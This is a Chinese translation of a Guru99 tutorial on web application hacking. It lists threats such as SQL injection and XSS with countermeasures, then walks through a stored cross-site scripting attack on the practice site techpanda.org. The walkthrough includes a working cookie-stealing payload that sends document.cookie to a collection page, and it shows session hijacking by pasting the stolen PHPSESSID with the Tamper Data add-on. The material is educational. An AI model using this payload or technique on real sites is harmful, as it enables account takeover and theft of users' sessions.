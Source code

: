 # 如何破解网站：在线示例

> 原文： [https://www.guru99.com/how-to-hack-website.html](https://www.guru99.com/how-to-hack-website.html)

访问互联网的人数比以往任何时候都要多。 这促使许多组织开发基于 Web 的应用程序，用户可以在线使用这些应用程序与组织进行交互。 可以利用 Web 应用程序编写不良的代码来获得对敏感数据和 Web 服务器的未经授权的访问。

在本文中，我们将向您介绍 **Web 应用程序黑客技术，以及可以用来防范此类攻击的对策**。

## **本教程涵盖的主题**

*   [什么是 Web 应用程序？ 什么是网络威胁？](#1)
*   [如何保护您的网站免受黑客攻击？](#2)
*   [黑客活动：黑客网站！](#3)

## 什么是 Web 应用程序？ 什么是网络威胁？

Web 应用程序（又称网站）是基于客户端-服务器模型的应用程序。 服务器提供数据库访问和业务逻辑。 它托管在 Web 服务器上。 客户端应用程序在客户端 Web 浏览器上运行。 Web 应用程序通常使用 Java，C＃和 VB.Net，PHP，ColdFusion 标记语言等语言编写。Web 应用程序中使用的数据库引擎包括 MySQL，MS [SQL](/sql.html) Server，PostgreSQL，SQLite， 等等

大多数 Web 应用程序都托管在可通过 Internet 访问的公共服务器上。 由于易于访问，这使它们容易受到攻击。 以下是常见的 Web 应用程序威胁。

*   **SQL 注入** –这种威胁的目标可能是绕过登录算法，破坏数据等。
*   **拒绝服务攻击** –此威胁的目标可能是拒绝合法用户访问资源
*   **跨站点脚本 XSS** –这种威胁的目标可能是注入可以在客户端浏览器上执行的代码。
*   **Cookie /会话中毒** –此威胁的目标是攻击者修改 Co​​okie /会话数据以获得未经授权的访问。
*   **表单篡改** –此威胁的目的是修改电子商务应用程序中的表单数据（例如价格），以便攻击者可以降低的价格获取商品。
*   **代码注入** –这种威胁的目标是注入可以在服务器上执行的代码，例如 PHP，Python 等。 该代码可以安装后门，显示敏感信息等。
*   **污损** –此威胁的目的是修改网站上显示的页面，并将所有页面请求重定向到包含攻击者消息的单个页面。

## 如何保护您的网站免受黑客攻击？

组织可以采用以下策略来保护自己免受 Web 服务器攻击。

*   **SQL Injection** -在将用户参数提交给数据库进行处理之前对其进行清理和验证可以帮助减少通过 SQL Injection 受到攻击的机会。 数据库引擎（例如 MS SQL Server，MySQL 等）支持参数和准备好的语句。 它们比传统的 SQL 语句安全得多
*   **拒绝服务攻击–如果攻击是简单的 DoS，则**防火墙可用于阻止来自可疑 IP 地址的流量。 正确配置网络和入侵检测系统也可以帮助减少 DoS 攻击成功的机会。
*   **跨站点脚本–** 验证和清除标头，通过 URL 传递的参数，表单参数和隐藏值可以帮助减少 XSS 攻击。
*   **Cookie /会话中毒** –可以通过加密 cookie 的内容，在一段时间后使 cookie 超时，将 cookie 与用于创建它们的客户端 IP 地址相关联来防止这种情况。
*   **模板回火–** 可以通过在处理用户输入之前对其进行验证并进行验证来防止这种情况。
*   **代码注入-**可以通过将所有参数视为数据而非可执行代码来防止。 可以使用“消毒和验证”来实现此目的。
*   **损坏–** 良好的 Web 应用程序开发安全策略应确保它密封了访问 Web 服务器的常用漏洞。 开发 Web 应用程序时，这可以是对操作系统，Web 服务器软件和最佳安全性实践的正确配置。

## 黑客活动：黑客网站

在这种实际情况下，我们将劫持位于 [www.techpanda.org](http://www.techpanda.org/) 的 Web 应用程序的用户会话。 我们将使用跨站点脚本来读取 cookie 会话 ID，然后使用它来模拟合法的用户会话。

假定攻击者可以访问 Web 应用程序，并且他想劫持使用同一应用程序的其他用户的会话。 该攻击的目标可能是假设攻击者的访问帐户受到限制，从而获得对 Web 应用程序的管理员访问权限。

**使用入门**

*   打开 [http://www.techpanda.org/](http://www.techpanda.org/)
*   出于实践目的，强烈建议使用 SQL Injection 获得访问权限。 有关如何执行此操作的更多信息，请参见此[文章](/learn-sql-injection-with-practical-example.html)。
*   登录电子邮件为，此电子邮件地址已受到防止垃圾邮件机器人的保护。 您需要启用 JavaScript 才能查看它。 ，密码为 Password2010
*   如果您已成功登录，则将获得以下信息中心

![How to hack a Website](img/e423c6f5c2e851f4d0c0b3182e6a6c82.png "How to hack a Website")

*   点击添加新联系人
*   输入以下内容作为名字

< a href =＃onclick = \“ document.location = \'http：//techpanda.org/snatch_sess_id.php？c = \'+ escape \（document.cookie \）\; \” >暗 < / a >

**此处，**

**上面的代码使用 JavaScript** 。 **它将添加带有 onclick 事件的超链接**。 当毫无戒心的用户单击链接时，事件将检索 [PHP](/php-tutorials.html) Cookie 会话 ID，并将其与 URL 中的会话 ID 一起发送到 snatch_sess_id.php 页面。

![How to hack a Website](img/cdc3c67546eac8ae664210522875ff67.png "How to hack a Website")

*   输入其余详细信息，如下所示
*   点击保存更改

![How to hack a Website](img/dd587c69c7b8869de02a5f0bf9f3e332.png "How to hack a Website")

*   现在，您的仪表盘将如下图所示

![How to hack a Website](img/231d4faeb35dc6f09f11ebe74f2c4b29.png "How to hack a Website")

*   由于跨站点脚本代码存储在数据库中，因此每次具有访问权限的用户登录时都会加载该代码
*   假设管理员登录并单击显示为 Dark 的超链接
*   他/她将获得在 URL 中显示会话 ID 的窗口

![How to hack a Website](img/db74f98e117af4fb67504e06e5724d2e.png "How to hack a Website")

***注意*** *：脚本可能会将值发送到存储 PHPSESSID 的某个远程服务器，然后用户重定向回网站，就好像什么都没发生。*

***注意*** *：您获得的值可能与本教程中的值不同，但概念相同*

## *使用 Firefox 和篡改数据插件的会话模拟*

下面的流程图显示了完成此练习必须采取的步骤。

![How to hack a Website](img/d409362484e66e8f9937f8ace7dc91d8.png "How to hack a Website")

*   您需要此部分的 Firefox Web 浏览器和篡改数据附加组件
*   打开 Firefox 并安装添加，如下图所示

![How to hack a Website](img/97e4984a79c87dcafbe87bb457ee2484.png "How to hack a Website")

![How to hack a Website](img/1c1cdfc0a17025c9d77044fa5de1cdd3.png "How to hack a Website")

*   搜索篡改数据，然后单击安装，如上所示

![How to hack a Website](img/d5417dba15889db84480e96ec5af3405.png "How to hack a Website")

*   单击接受并安装…

![How to hack a Website](img/b5d80f7eb1c48b7dfca25b497ec16a76.png "How to hack a Website")

![How to hack a Website](img/fcaf5ca2b51bf876696119257e354b0f.png "How to hack a Website")

*   安装完成后，单击立即重新启动
*   如果未显示，请在 Firefox 中启用菜单栏

![How to hack a Website](img/7d0604ff4571e51b1ac278b4668c1060.png "How to hack a Website")

*   单击工具菜单，然后选择篡改数据，如下所示

![How to hack a Website](img/8f2153b89c621c5fcb448d52f130d8a3.png "How to hack a Website")

*   您将获得以下窗口。 注意：如果 Windows 不为空，请单击清除按钮

![How to hack a Website](img/4b1b5eeb13df85e7155557ca2a80f31c.png "How to hack a Website")

*   单击开始篡改菜单
*   切换回 Firefox Web 浏览器，输入 [http://www.techpanda.org/dashboard.php](http://www.techpanda.org/dashboard.php) ，然后按 Enter 键加载页面
*   您将从篡改数据中看到以下弹出窗口

![How to hack a Website](img/ea967842e201bfa180a000903feb02b2.png "How to hack a Website")

*   弹出窗口具有三（3）个选项。 **篡改选项允许您在将 HTTP 标头信息提交到服务器**之前对其进行修改。
*   点击它
*   您将获得以下窗口

![How to hack a Website](img/0be3b5bedc3e3a64afb37b27e6e8918b.png "How to hack a Website")

*   复制您从攻击 URL 复制的 PHP 会话 ID，并将其粘贴在等号后。 您的价值现在应该像这样

PHPSESSID = 2DVLTIPP2N8LDBN11B2RA76LM2

*   点击确定按钮
*   您将再次获得“篡改数据”弹出窗口

![How to hack a Website](img/9f8dff20dae22b22af65ee5cb001c696.png "How to hack a Website")

*   取消选中要求继续篡改的复选框。
*   完成后单击提交按钮
*   您应该能够看到如下所示的仪表板

![How to hack a Website](img/b94b56a1f69ca28761e314f694de5904.png "How to hack a Website")

***注意*** *：我们没有登录，我们使用跨站点脚本检索的 PHPSESSID 值模拟了登录会话*

## 摘要

*   Web 应用程序基于服务器-客户端模型。 客户端使用 Web 浏览器访问服务器上的资源。
*   Web 应用程序通常可以通过 Internet 访问。 这使他们容易受到攻击。
*   Web 应用程序威胁包括 SQL 注入，代码注入，XSS，污损，Cookie 中毒等。
*   开发 Web 应用程序时，好的安全策略可以帮助确保它们的安全性。